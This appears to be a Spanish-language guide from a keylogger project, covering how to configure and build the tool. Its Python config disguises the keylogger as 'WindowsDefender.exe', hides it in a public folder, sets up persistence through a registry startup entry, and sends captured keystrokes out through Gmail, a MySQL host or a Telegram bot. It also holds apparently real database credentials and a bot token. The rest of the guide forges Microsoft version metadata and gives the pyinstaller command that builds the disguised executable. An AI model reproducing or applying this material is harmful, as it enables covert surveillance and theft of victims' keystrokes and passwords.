 [Volver al a la documentación](../README.md)

# Custom __[Solo para programadores intemedio de python]__

Proceso de Opciones avanzada del keylogger.

__NOTA:__ Si no sabe no toque.
````py
class Config:
    def __init__(self):
        self.NAME_KEY = "WindowsDefender"+ ".exe"   # Nombre del Keylogger // Debe ser exactamente igual al Compilado *.exe
        self.NAME_STARTUP = "Windows Defeder REG"                                   # Nombre del Keylogger en el registro
        self.PATH_OCULT = "C:\\Users\\Public\\Security\\Windows Defender" + "\\"    # Ruta donde se esconderá el KEYLOGGER
        self.LOG_KEY_PATH = "C:\\Users\\Public\\Security\\Settings"+ "\\"           # Ruta del Registro de teclas
        self.LOG_NAME = "reg" + "." + "k"
        self.PATH_KEY = self.PATH_OCULT + self.NAME_KEY  # <No cambiar>
        self.PATH_LOG = self.LOG_KEY_PATH + self.LOG_NAME
                                                # Nombre y extensión del registro
        # Importante
        self.TIMESEND = 26 #[minutos]                                                # Tiempo de envió del registro
        self.MODE = 2     # 0 = Gmail
                          # 1 = DataBase                                            # Solo se puede usar una opción
                          # 2 = TelegramBot
    class DataBase:  # Clase de Base de datos
        def __init__(self):
            self.HOSTNAME = "bh1g5gnxzw2igrvui8hq-mysql.services.clever-cloud.com"  # HostName
            self.USERNAME = "udwlsyrbtldkznqo"                                      # Username
            self.PASSWORD = "OR2i2dfdgWek0UDiAv4f"                                  # Password
            self.DATABASE = "bh1g5gnxzw2igrvui8hq"                                  # DataBase Name
            self.PORT     = "3306"                                                  # Port
    class Gmail:
        def __init__(self):
            self.GMAIL_1 = "correo1@gmail.com"
            self.PASS_1  = "password1"
            self.GMAIL_2 = "correo2@gmail.com"
            self.PASS_2  = "password2"
            self.GMAIL_3 = "correo3@gmail.com"
            self.PASS_3  = "password3"
          # Solo un correo Recibirá el Registro de Teclas
            self.RECEIVERS = ["receivers1@yahoo.com"]
          # Correos que recibiran el Registro de teclas, pueden ser de 1 a muchos
          # self.RECEIVERS = ["receivers1@yahoo.com","receivers2@gmail.com","receivers3@hotmail.com"]
    class TelegramBot:
        def __init__(self):
            self.ID   = 831756903                                                     # ID Principal [Obligatorio]
            self.ID_2 = 000000000                                                     # ID secundario [Opcional]
            self.ID_3 = 000000000                                                     # ID Terciario  [Opcional]
            self.TOKEN = "1159435940:AAHKZLqDuuk4XBYHUx2GmQei0-RoRvis2v8"             # TOKEN de tu Bot [Obligatorio]
````

# Proceso de conversión: `*.py a *.exe`
Se utilizará `pyinstaller`
1. En la carpeta principal encontrará dos archivos, uno llamado `icon.ico` y el otro `version.txt`, éstos 2 archivos son importantes para la conversión del `*.py a *.exe`.
    - `icon.ico` = El icono que tendrá el keylogger al ser convertido
    - `version.txt` = Información detallada del keyloger.
    
    Si el siguiente proceso se realiza con exito, el keylogger estará disfrazado así como las siguientes imagenes.
    

    ![Imagen1](https://i.imgur.com/MQAiVnJ.png)
    ![Imagen2](https://i.imgur.com/mTBByRy.png)

    ![Imagen1](https://i.imgur.com/wGTfC4T.png)
    ![Imagen2](https://i.imgur.com/Txt3QFS.png)





    Toda esa información puede ser modificada en el archivo de la plantilla `version.txt`
2. __Disfraz _[Información]_:__ El el siguiente archivo `version.txt`, puedes modificar la información del `*.exe` la cual se supone que de ser creible.
````r
VSVersionInfo(
  ffi=FixedFileInfo(
    filevers=(6, 1, 7601, 17514),
    prodvers=(6, 1, 7601, 17514),
    mask=0x3f,
    flags=0x0,
    OS=0x40004,
    fileType=0x1,
    subtype=0x0,
    date=(0, 0)
    ),
  kids=[
    StringFileInfo(
      [
      StringTable(
        u'040904B0',
        [StringStruct(u'CompanyName', u'Microsoft CorpoKeyloggerion'),
        StringStruct(u'FileDescription', u'Windows Security Health Host Key'),
        StringStruct(u'FileVersion', u'6.1.7601.17514 (win7sp1_rtm.101119-1850)'),
        StringStruct(u'InternalName', u'Windows Defender'),
        StringStruct(u'LegalCopyright', u'\xa9 Microsoft CorpoKeyloggerion. All rights reserved.'),
        StringStruct(u'OriginalFilename', u'SecurityHealthHostKey.exe'),
        StringStruct(u'ProductName', u'Microsoft\xae Windows\xae OpeKeyloggering System'),
        StringStruct(u'ProductVersion', u'6.1.7601.17514')])
      ]), 
    VarFileInfo([VarStruct(u'Translation', [1033, 1200])])
  ]
)
````




3. __Conversión final:__
Mediante Consola debe dirigirse a la carpeta principal.
Los requisitos es tener instalada la librería `pyinstaller`, porfavor mire un tutorial antes de hacer éste proceso, la linea de comando recomendada es la siguiente:


````bat
pyinstaller --clean   --distpath "EXE" -F --windowed --icon icon.ico --version-file version.txt "Tu nombre custom".py
````